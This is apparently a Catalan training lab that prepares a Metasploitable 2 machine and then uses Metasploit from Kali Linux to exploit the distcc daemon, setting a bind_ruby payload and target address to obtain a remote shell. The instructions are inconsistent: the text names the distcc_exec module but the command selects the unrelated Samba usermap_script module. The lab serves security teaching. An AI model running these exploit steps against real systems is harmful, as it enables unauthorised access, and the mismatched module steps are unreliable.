





En aesta pràctica prepararem la màquina `metasploitable 2` per a poder realitzar algunes activitats amb Metasploit amb posterioritat.

1 Inicia les màquines `Kali Linux` i `Metasploitable 2`. Ha d'haver-hi comunicació per xarxa local entre ambdues. 
!!!note "Anotació"
    Tots els passos a realitzar es faran des de la màquina Kali. S'intentarà accedir a la màquina Metasploitable mitjançant una vulnerabilitat del dimoni distcc. 
    distcc és un compilador del llenguatge C i C++ pensat en l'aprofitament de màquines distribuïdes en la mateixa xarxa local per a optimitzar els temps de compilació utilitzant el temps de CPU d'altres màquines que estan ocioses.

Kali: Búsqueda del módulo a utilizar con metasploit:

````
search distcc
Selecciona el texto "exploit/unix/misc/distcc_exec"
````



Kali: Selecciona'l:
````
use exploit/multi/samba/usermap_script
````


Kali: Selecciona el payload a utilitzar:

````
show payloads
set payload cmd/unix/bind_ruby
````


Instructions:

````
show options
set RHOSTS 10.0.2.5
(Modifica 10.0.2.5 per la IP de la màquina a atacar)
````



`````
Kali: Executeu l'exploit:

exploit
A partir d'ara hem obtingut una terminal en la màquina atacada.
`````
